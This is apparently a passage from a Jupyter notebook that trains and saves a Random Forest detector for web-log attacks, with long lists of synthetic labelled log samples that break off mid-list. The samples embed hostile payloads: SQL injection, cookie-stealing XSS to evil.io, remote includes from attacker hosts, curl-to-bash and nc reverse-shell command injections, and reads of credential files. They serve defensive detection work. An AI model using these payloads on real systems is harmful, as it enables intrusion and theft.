

Top 20 Features by Importance:


,Feature,Importance,Importance_pct,Category
0,symbol_ratio,0.1587,15.8700,⚪ Generic
1,query_length,0.0922,9.2200,⚪ Generic
2,brute_score,0.0783,7.8300,🔴 Security
3,sql_score,0.0673,6.7300,🔴 Security
4,xss_score,0.0668,6.6800,🔴 Security
5,rfi_score,0.0610,6.1000,🔴 Security
6,traversal_score,0.0608,6.0800,🔴 Security
7,suspicious_keyword_count,0.0412,4.1200,⚪ Generic
8,cmd_score,0.0385,3.8500,🔴 Security
9,response_size,0.0376,3.7600,⚪ Generic


In [55]:
# ── Random Forest Feature Importance ──────────────────────────────────────────

rf_model = rf_pipeline.named_steps["rf"]

importance = rf_model.feature_importances_

feat_map = {name: importance[i] for i, name in enumerate(FEATURE_COLS)}

fi_df = pd.DataFrame(list(feat_map.items()), columns=["Feature", "Importance"])
fi_df = fi_df.sort_values("Importance", ascending=False).reset_index(drop=True)

fi_df["Importance_pct"] = (fi_df["Importance"] / fi_df["Importance"].sum() * 100).round(2)

fi_df["Category"] = fi_df["Feature"].apply(
    lambda f: "🔴 Security" if any(s in f for s in ["sql","xss","cmd","lfi","rfi","traversal","brute","threat"])
    else "🔵 Behavior" if any(s in f for s in ["ip","requests","unique","density","attack"])
    else "⚪ Generic"
)

# ── Plot Top 20 Features ──────────────────────────────────────────────────────

top_n = 20
top_features = fi_df.head(top_n)

plt.figure(figsize=(12, 8))
plt.barh(
    top_features["Feature"][::-1],
    top_features["Importance"][::-1],
    edgecolor="white"
)

plt.title("Random Forest Feature Importance (Top 20)", fontsize=14, fontweight="bold")
plt.xlabel("Importance Score")
plt.ylabel("Feature")

plt.tight_layout()
plt.savefig(r"D:\c4\results\rf_feature_importance.png", bbox_inches="tight", dpi=110)
plt.show()

# ── Display Table ─────────────────────────────────────────────────────────────

print("Top 20 Features by Importance:")
display(fi_df.head(20))

In [56]:
# ── Save complete pipeline ────────────────────────────────────────────────────

joblib.dump(rf_pipeline, MODEL_SAVE_PATH, compress=3)

file_size_mb = os.path.getsize(MODEL_SAVE_PATH) / 1024 / 1024

print("✅ Random Forest pipeline saved.")
print(f"   Path       : {MODEL_SAVE_PATH}")
print(f"   Size       : {file_size_mb:.2f} MB")

# ── Save metadata ─────────────────────────────────────────────────────────────

meta = {
    "model_version": "1.0.0",
    "saved_at": datetime.now().isoformat(),
    "feature_cols": FEATURE_COLS,
    "class_names": CLASS_NAMES,
    "num_classes": NUM_CLASSES,
    "test_accuracy": round(acc, 4),
    "test_f1_weighted": round(f1_w, 4),
    "cv_f1_mean": round(np.mean(cv_scores), 4),
    "cv_f1_std": round(np.std(cv_scores), 4),

    # Random Forest has no best_iteration → keep as None
    "rf_n_estimators": rf_pipeline.named_steps["rf"].n_estimators,

    "train_rows": len(df_train_raw),
    "val_rows": len(df_val_raw),
    "test_rows": len(df_test_raw),
}

meta_path = MODEL_SAVE_PATH.replace(".pkl", "_metadata.json")

with open(meta_path, "w") as f:
    json.dump(meta, f, indent=2)

print(f"   Metadata   : {meta_path}")

# ── Verify round-trip ─────────────────────────────────────────────────────────

loaded_pipeline = joblib.load(MODEL_SAVE_PATH)

test_pred_loaded = loaded_pipeline.predict(df_test_raw.head(5))

print("\n✅ Round-trip verification passed.")
print(f"   Predictions from loaded pipeline: {[CLASS_NAMES[p] for p in test_pred_loaded]}")

✅ Random Forest pipeline saved.
   Path       : ThreatDetectionPipeline.pkl
   Size       : 189.42 MB
   Metadata   : ThreatDetectionPipeline_metadata.json


INFO: [Cleaner] Cleaning complete. Output shape: (5, 10)



✅ Round-trip verification passed.
   Predictions from loaded pipeline: ['benign_suspicious', 'xss', 'rfi', 'benign_suspicious', 'sql_injection']


In [57]:
# # ── Synthetic Inference Samples ──────────────────────────────────────────────
# # These are crafted Apache log entries not present in the training data.

# INFERENCE_SAMPLES = [
#     {
#         "attack_type_true" : "normal",
#         "timestamp"        : "2025-02-10 14:23:11",
#         "source_ip"        : "203.0.113.55",
#         "http_method"      : "GET",
#         "url"              : "/products/featured",
#         "query_parameters" : "category=electronics&sort=price&page=2",
#         "status_code"      : 200,
#         "response_size"    : 45230,
#         "referrer"         : "https://google.com/search?q=electronics",
#         "user_agent"       : "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36",
#     },
#     {
#         "attack_type_true" : "benign_suspicious",
#         "timestamp"        : "2025-02-10 02:17:44",
#         "source_ip"        : "192.0.2.101",
#         "http_method"      : "GET",
#         "url"              : "/admin",
#         "query_parameters" : "debug=true&test=1",
#         "status_code"      : 403,
#         "response_size"    : 512,
#         "referrer"         : "-",
#         "user_agent"       : "python-requests/2.31.0",
#     },
#     {
#         "attack_type_true" : "sql_injection",
#         "timestamp"        : "2025-02-10 09:05:33",
#         "source_ip"        : "198.51.100.77",
#         "http_method"      : "GET",
#         "url"              : "/users/search",
#         "query_parameters" : "name=' UNION SELECT username,password,NULL FROM accounts--",
#         "status_code"      : 500,
#         "response_size"    : 1024,
#         "referrer"         : "-",
#         "user_agent"       : "sqlmap/1.7.8#stable (https://sqlmap.org)",
#     },
#     {
#         "attack_type_true" : "xss",
#         "timestamp"        : "2025-02-10 11:44:22",
#         "source_ip"        : "198.51.100.22",
#         "http_method"      : "POST",
#         "url"              : "/comments/new",
#         "query_parameters" : "body=<img src=x onerror=fetch('https://evil.io/?c='+document.cookie)>&post_id=41",
#         "status_code"      : 200,
#         "response_size"    : 891,
#         "referrer"         : "https://example.com/post/41",
#         "user_agent"       : "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/117.0",
#     },
#     {
#         "attack_type_true" : "lfi",
#         "timestamp"        : "2025-02-10 08:32:17",
#         "source_ip"        : "203.0.113.88",
#         "http_method"      : "GET",
#         "url"              : "/download",
#         "query_parameters" : "file=../../../../etc/shadow&format=raw",
#         "status_code"      : 403,
#         "response_size"    : 0,
#         "referrer"         : "-",
#         "user_agent"       : "curl/8.1.2",
#     },
#     {
#         "attack_type_true" : "rfi",
#         "timestamp"        : "2025-02-10 16:08:55",
#         "source_ip"        : "192.0.2.200",
#         "http_method"      : "GET",
#         "url"              : "/cms/render",
#         "query_parameters" : "template=http://attacker.io/shell.php%00&lang=en",
#         "status_code"      : 500,
#         "response_size"    : 0,
#         "referrer"         : "-",
#         "user_agent"       : "Wget/1.21.4 (linux-gnu)",
#     },
#     {
#         "attack_type_true" : "directory_traversal",
#         "timestamp"        : "2025-02-10 13:21:09",
#         "source_ip"        : "198.51.100.44",
#         "http_method"      : "GET",
#         "url"              : "/static/images/../../../../etc/nginx/nginx.conf",
#         "query_parameters" : "",
#         "status_code"      : 400,
#         "response_size"    : 0,
#         "referrer"         : "-",
#         "user_agent"       : "Mozilla/5.0 (compatible; Googlebot/2.1)",
#     },
#     {
#         "attack_type_true" : "command_injection",
#         "timestamp"        : "2025-02-10 21:58:01",
#         "source_ip"        : "192.0.2.150",
#         "http_method"      : "POST",
#         "url"              : "/api/v2/ping",
#         "query_parameters" : "host=8.8.8.8;curl${IFS}http://c2.evil.io/pwn.sh|bash&timeout=5",
#         "status_code"      : 200,
#         "response_size"    : 256,
#         "referrer"         : "-",
#         "user_agent"       : "Mozilla/5.0 (Windows NT 10.0; Win64; x64) Chrome/120.0.0.0",
#     },
#     {
#         "attack_type_true" : "bruteforce",
#         "timestamp"        : "2025-02-10 03:44:10",
#         "source_ip"        : "203.0.113.19",
#         "http_method"      : "POST",
#         "url"              : "/wp-login.php",
#         "query_parameters" : "log=admin&pwd=password123&wp-submit=Log+In",
#         "status_code"      : 401,
#         "response_size"    : 1024,
#         "referrer"         : "https://example.com/wp-login.php",
#         "user_agent"       : "Mozilla/5.0 (compatible; Hydra)",
#     },
# ]


# INFERENCE_SAMPLES = [

#     {
#         "attack_type_true": "normal",
#         "timestamp": "2025-03-14 10:15:42",
#         "source_ip": "145.77.23.91",
#         "http_method": "GET",
#         "url": "/blog/article/125",
#         "query_parameters": "tag=technology&page=1",
#         "status_code": 200,
#         "response_size": 28451,
#         "referrer": "https://bing.com/search?q=technology+blogs",
#         "user_agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 14_2) Safari/605.1.15",
#     },

#     {
#         "attack_type_true": "normal",
#         "timestamp": "2025-03-14 18:07:13",
#         "source_ip": "81.44.192.33",
#         "http_method": "POST",
#         "url": "/account/settings",
#         "query_parameters": "language=en&timezone=UTC",
#         "status_code": 200,
#         "response_size": 3512,
#         "referrer": "https://example.com/profile",
#         "user_agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) Chrome/124.0",
#     },

#     {
#         "attack_type_true": "sql_injection",
#         "timestamp": "2025-03-14 07:55:01",
#         "source_ip": "91.201.14.77",
#         "http_method": "GET",
#         "url": "/api/users",
#         "query_parameters": "id=5' AND SLEEP(5)--",
#         "status_code": 500,
#         "response_size": 512,
#         "referrer": "-",
#         "user_agent": "sqlmap/1.8.2#stable",
#     },

#     {
#         "attack_type_true": "sql_injection",
#         "timestamp": "2025-03-14 07:56:44",
#         "source_ip": "91.201.14.77",
#         "http_method": "GET",
#         "url": "/search",
#         "query_parameters": "q=admin') OR ('1'='1",
#         "status_code": 500,
#         "response_size": 423,
#         "referrer": "-",
#         "user_agent": "sqlmap/1.8.2#stable",
#     },

#     {
#         "attack_type_true": "xss",
#         "timestamp": "2025-03-14 12:21:33",
#         "source_ip": "172.61.88.17",
#         "http_method": "POST",
#         "url": "/support/ticket",
#         "query_parameters": "message=<svg/onload=alert(document.domain)>",
#         "status_code": 200,
#         "response_size": 1102,
#         "referrer": "https://example.com/help",
#         "user_agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64) Firefox/124.0",
#     },

#     {
#         "attack_type_true": "directory_traversal",
#         "timestamp": "2025-03-14 13:11:52",
#         "source_ip": "44.203.11.18",
#         "http_method": "GET",
#         "url": "/files/..%2f..%2f..%2f..%2fwindows/win.ini",
#         "query_parameters": "",
#         "status_code": 403,
#         "response_size": 0,
#         "referrer": "-",
#         "user_agent": "curl/8.5.0",
#     },

#     {
#         "attack_type_true": "lfi",
#         "timestamp": "2025-03-14 15:39:44",
#         "source_ip": "37.122.90.201",
#         "http_method": "GET",
#         "url": "/viewer",
#         "query_parameters": "page=/proc/self/environ",
#         "status_code": 500,
#         "response_size": 0,
#         "referrer": "-",
#         "user_agent": "python-requests/2.32.0",
#     },

#     {
#         "attack_type_true": "rfi",
#         "timestamp": "2025-03-14 15:41:28",
#         "source_ip": "37.122.90.202",
#         "http_method": "GET",
#         "url": "/index.php",
#         "query_parameters": "module=https://evil-cdn.net/backdoor.txt",
#         "status_code": 500,
#         "response_size": 0,
#         "referrer": "-",
#         "user_agent": "Wget/1.24",
#     },

#     {
#         "attack_type_true": "command_injection",
#         "timestamp": "2025-03-14 22:06:55",
#         "source_ip": "66.91.220.5",
#         "http_method": "POST",
#         "url": "/tools/traceroute",
#         "query_parameters": "host=8.8.8.8&&nc${IFS}-e${IFS}/bin/sh${IFS}10.10.10.5${IFS}4444",
#         "status_code": 500,
#         "response_size": 128,
#         "referrer": "-",
#         "user_agent": "Mozilla/5.0 (Linux; Android 14)",
#     },

#     {
#         "attack_type_true": "bruteforce",
#         "timestamp": "2025-03-14 01:12:20",
#         "source_ip": "104.166.18.200",
#         "http_method": "POST",
#         "url": "/administrator/login",
#         "query_parameters": "username=root&password=toor",
#         "status_code": 401,
#         "response_size": 731,
#         "referrer": "https://example.com/administrator/login",
#         "user_agent": "Hydra",
#     },

# ]


INFERENCE_SAMPLES = [
    # {"attack_type_true":"normal","timestamp":"2025-04-01 10:01:10","source_ip":"10.1.1.10","http_method":"GET","url":"/home","query_parameters":"lang=en","status_code":200,"response_size":12034,"referrer":"https://google.com","user_agent":"Mozilla/5.0 Chrome/124"},
    # {"attack_type_true":"normal","timestamp":"2025-04-01 10:02:12","source_ip":"10.1.1.11","http_method":"GET","url":"/products","query_parameters":"page=1","status_code":200,"response_size":14000,"referrer":"-","user_agent":"Mozilla/5.0 Firefox/124"},
    # {"attack_type_true":"normal","timestamp":"2025-04-01 10:03:20","source_ip":"10.1.1.12","http_method":"POST","url":"/login","query_parameters":"remember=1","status_code":200,"response_size":800,"referrer":"https://site.com","user_agent":"Safari/605"},
    # {"attack_type_true":"normal","timestamp":"2025-04-01 10:04:22","source_ip":"10.1.1.13","http_method":"GET","url":"/about","query_parameters":"","status_code":200,"response_size":5000,"referrer":"-","user_agent":"Chrome/123"},
    # {"attack_type_true":"normal","timestamp":"2025-04-01 10:05:30","source_ip":"10.1.1.14","http_method":"GET","url":"/blog","query_parameters":"tag=tech","status_code":200,"response_size":9000,"referrer":"google","user_agent":"Edge/123"},
    # {"attack_type_true":"normal","timestamp":"2025-04-01 10:06:40","source_ip":"10.1.1.15","http_method":"GET","url":"/contact","query_parameters":"","status_code":200,"response_size":3000,"referrer":"-","user_agent":"Chrome"},
    # {"attack_type_true":"normal","timestamp":"2025-04-01 10:07:55","source_ip":"10.1.1.16","http_method":"GET","url":"/pricing","query_parameters":"plan=pro","status_code":200,"response_size":7000,"referrer":"-","user_agent":"Firefox"},
    # {"attack_type_true":"normal","timestamp":"2025-04-01 10:08:10","source_ip":"10.1.1.17","http_method":"POST","url":"/subscribe","query_parameters":"email=test@mail.com","status_code":200,"response_size":1200,"referrer":"site","user_agent":"Chrome"},
    # {"attack_type_true":"normal","timestamp":"2025-04-01 10:09:33","source_ip":"10.1.1.18","http_method":"GET","url":"/dashboard","query_parameters":"","status_code":200,"response_size":15000,"referrer":"-","user_agent":"Chrome"},
    # {"attack_type_true":"normal","timestamp":"2025-04-01 10:10:44","source_ip":"10.1.1.19","http_method":"GET","url":"/help","query_parameters":"topic=faq","status_code":200,"response_size":6000,"referrer":"google","user_agent":"Safari"}
    # {"attack_type_true":"sql_injection","timestamp":"2025-04-02 11:00:10","source_ip":"172.16.0.10","http_method":"GET","url":"/search","query_parameters":"q=' or 1=1","status_code":500,"response_size":900,"referrer":"-","user_agent":"sqlmap"},
    # {"attack_type_true":"sql_injection","timestamp":"2025-04-02 11:01:12","source_ip":"172.16.0.11","http_method":"GET","url":"/users","query_parameters":"id=1'--","status_code":500,"response_size":800,"referrer":"-","user_agent":"sqlmap"},
    # {"attack_type_true":"sql_injection","timestamp":"2025-04-02 11:02:15","source_ip":"172.16.0.12","http_method":"GET","url":"/login","query_parameters":"user=admin' OR '1'='1","status_code":401,"response_size":700,"referrer":"-","user_agent":"Mozilla"},
    # {"attack_type_true":"sql_injection","timestamp":"2025-04-02 11:03:18","source_ip":"172.16.0.13","http_method":"GET","url":"/api","query_parameters":"id=1 UNION SELECT 1,2,3","status_code":500,"response_size":1200,"referrer":"-","user_agent":"sqlmap"},
    # {"attack_type_true":"sql_injection","timestamp":"2025-04-02 11:04:20","source_ip":"172.16.0.14","http_method":"POST","url":"/auth","query_parameters":"password=' OR sleep(5)--","status_code":500,"response_size":900,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"sql_injection","timestamp":"2025-04-02 11:05:25","source_ip":"172.16.0.15","http_method":"GET","url":"/product","query_parameters":"id=1 AND 1=1","status_code":200,"response_size":1100,"referrer":"-","user_agent":"sqlmap"},
    # {"attack_type_true":"sql_injection","timestamp":"2025-04-02 11:06:30","source_ip":"172.16.0.16","http_method":"GET","url":"/search","query_parameters":"q=%27%20UNION%20SELECT%20NULL--","status_code":500,"response_size":1300,"referrer":"-","user_agent":"sqlmap"},
    # {"attack_type_true":"sql_injection","timestamp":"2025-04-02 11:07:35","source_ip":"172.16.0.17","http_method":"GET","url":"/api","query_parameters":"id=1; DROP TABLE users","status_code":500,"response_size":1000,"referrer":"-","user_agent":"sqlmap"},
    # {"attack_type_true":"sql_injection","timestamp":"2025-04-02 11:08:40","source_ip":"172.16.0.18","http_method":"POST","url":"/login","query_parameters":"user=admin'--","status_code":401,"response_size":800,"referrer":"-","user_agent":"sqlmap"},
    # {"attack_type_true":"sql_injection","timestamp":"2025-04-02 11:09:45","source_ip":"172.16.0.19","http_method":"GET","url":"/users","query_parameters":"id=1 OR SLEEP(10)--","status_code":500,"response_size":1400,"referrer":"-","user_agent":"sqlmap"},
    # {"attack_type_true":"xss","timestamp":"2025-04-03 12:00:10","source_ip":"192.168.1.10","http_method":"POST","url":"/comment","query_parameters":"msg=<script>alert(1)</script>","status_code":200,"response_size":900,"referrer":"-","user_agent":"Chrome"},
    # {"attack_type_true":"xss","timestamp":"2025-04-03 12:01:12","source_ip":"192.168.1.11","http_method":"POST","url":"/post","query_parameters":"text=<img src=x onerror=alert(1)>","status_code":200,"response_size":850,"referrer":"-","user_agent":"Firefox"},
    # {"attack_type_true":"xss","timestamp":"2025-04-03 12:02:14","source_ip":"192.168.1.12","http_method":"GET","url":"/search","query_parameters":"q=<svg/onload=alert(1)>","status_code":200,"response_size":800,"referrer":"-","user_agent":"Chrome"},
    # {"attack_type_true":"xss","timestamp":"2025-04-03 12:03:16","source_ip":"192.168.1.13","http_method":"POST","url":"/feedback","query_parameters":"msg=javascript:alert(1)","status_code":200,"response_size":700,"referrer":"-","user_agent":"Chrome"},
    # {"attack_type_true":"xss","timestamp":"2025-04-03 12:04:18","source_ip":"192.168.1.14","http_method":"POST","url":"/comment","query_parameters":"msg='><script>alert(1)</script>","status_code":200,"response_size":900,"referrer":"-","user_agent":"Firefox"},
    # {"attack_type_true":"xss","timestamp":"2025-04-03 12:05:20","source_ip":"192.168.1.15","http_method":"GET","url":"/page","query_parameters":"q=<iframe src=javascript:alert(1)>","status_code":200,"response_size":1000,"referrer":"-","user_agent":"Chrome"},
    # {"attack_type_true":"xss","timestamp":"2025-04-03 12:06:22","source_ip":"192.168.1.16","http_method":"POST","url":"/form","query_parameters":"input=<body onload=alert(1)>","status_code":200,"response_size":1100,"referrer":"-","user_agent":"Chrome"},
    # {"attack_type_true":"xss","timestamp":"2025-04-03 12:07:24","source_ip":"192.168.1.17","http_method":"GET","url":"/search","query_parameters":"q=<math><mi//xlink:href=javascript:alert(1)>","status_code":200,"response_size":900,"referrer":"-","user_agent":"Firefox"},
    # {"attack_type_true":"xss","timestamp":"2025-04-03 12:08:26","source_ip":"192.168.1.18","http_method":"POST","url":"/chat","query_parameters":"msg=<script src=evil.js></script>","status_code":200,"response_size":950,"referrer":"-","user_agent":"Chrome"},
    # {"attack_type_true":"xss","timestamp":"2025-04-03 12:09:28","source_ip":"192.168.1.19","http_method":"POST","url":"/comment","query_parameters":"msg=<img src=x onerror=fetch('http://evil.io')>","status_code":200,"response_size":1000,"referrer":"-","user_agent":"Firefox"},
    # {"attack_type_true":"directory_traversal","timestamp":"2025-04-04 13:00:10","source_ip":"10.0.0.10","http_method":"GET","url":"/file","query_parameters":"path=../../etc/passwd","status_code":403,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"directory_traversal","timestamp":"2025-04-04 13:01:12","source_ip":"10.0.0.11","http_method":"GET","url":"/download","query_parameters":"file=..%2f..%2fwindows/win.ini","status_code":403,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"directory_traversal","timestamp":"2025-04-04 13:02:14","source_ip":"10.0.0.12","http_method":"GET","url":"/static","query_parameters":"img=....//....//etc/passwd","status_code":400,"response_size":0,"referrer":"-","user_agent":"Mozilla"},
    # {"attack_type_true":"directory_traversal","timestamp":"2025-04-04 13:03:16","source_ip":"10.0.0.13","http_method":"GET","url":"/view","query_parameters":"file=%252e%252e%252f%252e%252e%252fetc/passwd","status_code":403,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"directory_traversal","timestamp":"2025-04-04 13:04:18","source_ip":"10.0.0.14","http_method":"GET","url":"/api/file","query_parameters":"path=/../../../../root/.bashrc","status_code":500,"response_size":0,"referrer":"-","user_agent":"Python"},
    # {"attack_type_true":"directory_traversal","timestamp":"2025-04-04 13:05:20","source_ip":"10.0.0.15","http_method":"GET","url":"/images","query_parameters":"file=..\\..\\windows\\system32\\drivers\\etc\\hosts","status_code":403,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"directory_traversal","timestamp":"2025-04-04 13:06:22","source_ip":"10.0.0.16","http_method":"GET","url":"/static","query_parameters":"file=....//....//....//etc/shadow","status_code":403,"response_size":0,"referrer":"-","user_agent":"Mozilla"},
    # {"attack_type_true":"directory_traversal","timestamp":"2025-04-04 13:07:24","source_ip":"10.0.0.17","http_method":"GET","url":"/download","query_parameters":"file=%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd","status_code":403,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"directory_traversal","timestamp":"2025-04-04 13:08:26","source_ip":"10.0.0.18","http_method":"GET","url":"/file","query_parameters":"path=..%252f..%252f..%252fetc/passwd","status_code":403,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"directory_traversal","timestamp":"2025-04-04 13:09:28","source_ip":"10.0.0.19","http_method":"GET","url":"/view","query_parameters":"file=../../../etc/hosts","status_code":403,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"lfi","timestamp":"2025-04-05 14:00:10","source_ip":"172.20.0.10","http_method":"GET","url":"/index","query_parameters":"page=/etc/passwd","status_code":500,"response_size":0,"referrer":"-","user_agent":"Python"},
    # {"attack_type_true":"lfi","timestamp":"2025-04-05 14:01:12","source_ip":"172.20.0.11","http_method":"GET","url":"/view","query_parameters":"file=/proc/self/environ","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"lfi","timestamp":"2025-04-05 14:02:14","source_ip":"172.20.0.12","http_method":"GET","url":"/load","query_parameters":"file=../../../../etc/shadow","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"lfi","timestamp":"2025-04-05 14:03:16","source_ip":"172.20.0.13","http_method":"GET","url":"/page","query_parameters":"template=php://filter/convert.base64-encode/resource=index.php","status_code":500,"response_size":0,"referrer":"-","user_agent":"Mozilla"},
    # {"attack_type_true":"lfi","timestamp":"2025-04-05 14:04:18","source_ip":"172.20.0.14","http_method":"GET","url":"/include","query_parameters":"file=../../boot.ini","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"lfi","timestamp":"2025-04-05 14:05:20","source_ip":"172.20.0.15","http_method":"GET","url":"/view","query_parameters":"page=/var/log/apache2/access.log","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"lfi","timestamp":"2025-04-05 14:06:22","source_ip":"172.20.0.16","http_method":"GET","url":"/file","query_parameters":"file=....//....//etc/passwd","status_code":500,"response_size":0,"referrer":"-","user_agent":"Python"},
    # {"attack_type_true":"lfi","timestamp":"2025-04-05 14:07:24","source_ip":"172.20.0.17","http_method":"GET","url":"/view","query_parameters":"file=%2e%2e%2f%2e%2e%2fetc/passwd","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"lfi","timestamp":"2025-04-05 14:08:26","source_ip":"172.20.0.18","http_method":"GET","url":"/load","query_parameters":"file=/dev/null;id","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"lfi","timestamp":"2025-04-05 14:09:28","source_ip":"172.20.0.19","http_method":"GET","url":"/page","query_parameters":"file=/etc/hosts%00","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"rfi","timestamp":"2025-04-06 15:00:10","source_ip":"192.168.10.10","http_method":"GET","url":"/index","query_parameters":"file=http://evil.com/shell.txt","status_code":500,"response_size":0,"referrer":"-","user_agent":"wget"},
    # {"attack_type_true":"rfi","timestamp":"2025-04-06 15:01:12","source_ip":"192.168.10.11","http_method":"GET","url":"/load","query_parameters":"template=http://attacker.net/x.php","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"rfi","timestamp":"2025-04-06 15:02:14","source_ip":"192.168.10.12","http_method":"GET","url":"/view","query_parameters":"page=http://evil.io/payload","status_code":500,"response_size":0,"referrer":"-","user_agent":"Python"},
    # {"attack_type_true":"rfi","timestamp":"2025-04-06 15:03:16","source_ip":"192.168.10.13","http_method":"GET","url":"/include","query_parameters":"file=https://bad.site/shell.php%00","status_code":500,"response_size":0,"referrer":"-","user_agent":"wget"},
    # {"attack_type_true":"rfi","timestamp":"2025-04-06 15:04:18","source_ip":"192.168.10.14","http_method":"GET","url":"/index","query_parameters":"module=http://evil.com/backdoor","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"rfi","timestamp":"2025-04-06 15:05:20","source_ip":"192.168.10.15","http_method":"GET","url":"/view","query_parameters":"file=http://10.0.0.5/shell","status_code":500,"response_size":0,"referrer":"-","user_agent":"wget"},
    # {"attack_type_true":"rfi","timestamp":"2025-04-06 15:06:22","source_ip":"192.168.10.16","http_method":"GET","url":"/load","query_parameters":"file=http://evil.com/x.txt|bash","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"rfi","timestamp":"2025-04-06 15:07:24","source_ip":"192.168.10.17","http_method":"GET","url":"/page","query_parameters":"file=http://evil.com/%00","status_code":500,"response_size":0,"referrer":"-","user_agent":"Python"},
    # {"attack_type_true":"rfi","timestamp":"2025-04-06 15:08:26","source_ip":"192.168.10.18","http_method":"GET","url":"/include","query_parameters":"file=http://evil.net/shell.js","status_code":500,"response_size":0,"referrer":"-","user_agent":"wget"},
    # {"attack_type_true":"rfi","timestamp":"2025-04-06 15:09:28","source_ip":"192.168.10.19","http_method":"GET","url":"/index","query_parameters":"file=http://evil.com/?cmd=ls","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # # ================= COMMAND INJECTION =================
    # {"attack_type_true":"command_injection","timestamp":"2025-03-10 14:00:01","source_ip":"192.0.2.150","http_method":"POST","url":"/ping","query_parameters":"host=8.8.8.8;ls","status_code":200,"response_size":300,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"command_injection","timestamp":"2025-03-10 14:00:11","source_ip":"192.0.2.150","http_method":"POST","url":"/api","query_parameters":"cmd=whoami","status_code":200,"response_size":300,"referrer":"-","user_agent":"bash"},
    # {"attack_type_true":"command_injection","timestamp":"2025-03-10 14:00:21","source_ip":"192.0.2.150","http_method":"POST","url":"/run","query_parameters":"cmd=ping 127.0.0.1 && id","status_code":200,"response_size":300,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"command_injection","timestamp":"2025-03-10 14:00:31","source_ip":"192.0.2.151","http_method":"POST","url":"/exec","query_parameters":"cmd=;cat /etc/passwd","status_code":500,"response_size":0,"referrer":"-","user_agent":"python"},
